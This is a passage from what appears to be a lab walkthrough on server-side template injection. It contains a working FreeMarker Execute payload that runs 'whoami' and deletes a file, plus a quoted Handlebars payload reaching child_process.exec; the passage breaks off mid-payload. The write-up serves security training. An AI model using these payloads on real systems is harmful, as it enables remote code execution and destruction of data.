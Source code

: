 After clicking there I see the syntax of the template engine:

![Pasted_image_20250126170856](https://github.com/user-attachments/assets/7b7e2a42-a2cb-4b16-8435-301e64a324ea)

I just changed one value to something that don't exist there, such as `${halil}` and I got a list of errors.

But the error is telling me the template:

![Pasted_image_20250126171042](https://github.com/user-attachments/assets/86433fcd-d1d0-4ce4-80bc-0ffefa20cc37)

Now, I know that the template engine is `freemaker` so now it will be much easier to find the correct syntax and do the system commands.

By adding this payload `<#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("whoami")}` I was able to read the current user that I am executing commands from, which is `carlos`.

![Pasted_image_20250126172204](https://github.com/user-attachments/assets/2dc8d32e-30a0-49e6-adfc-7cbf797e92da)

with `ls` I see that there is `morale.txt` there, so I modify the command to `<p>Hurry! Only ${product.stock} left of ${product.name} at ${product.price}.</p><#assign ex = "freemarker.template.utility.Execute"?new()>${ ex("rm morale.txt")}`

And the file is deleted and the lab is solved.

-------

### Lab.4 Server-Side Template Injection in an Unknown Language with a documented Exploit

**Description**

The goal of the lab is to identify the template engine and find a documented exploit online, then execute code and delete the `morale.txt` file from Carlos's home directory.

**Solution**

When I visit the page, and click on the first article to see the details, I see there a message saying `Unfortunately this product is out of stock`. So, let's try to see if this message is vulnerable.

I sent the request for the message: `GET /?message=Unfortunately%20this%20product%20is%20out%20of%20stock HTTP/2` to Intruder and add there a list of test payloads, to see the responses.

After I execute a Sniper Attack, I see the responses, and some of them like `{{7*7}}` have produced errors, and when I see the response, it tells that it uses `handlebars`.

So, I have identified the template engine.

![Pasted_image_20250126175817](https://github.com/user-attachments/assets/0a0a0a83-eddd-40b9-8a79-c54b1e946986)

Now, I will search for some existing `handlebars` payloads. I found one of them on `Hacktricks`:

```JS
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
```
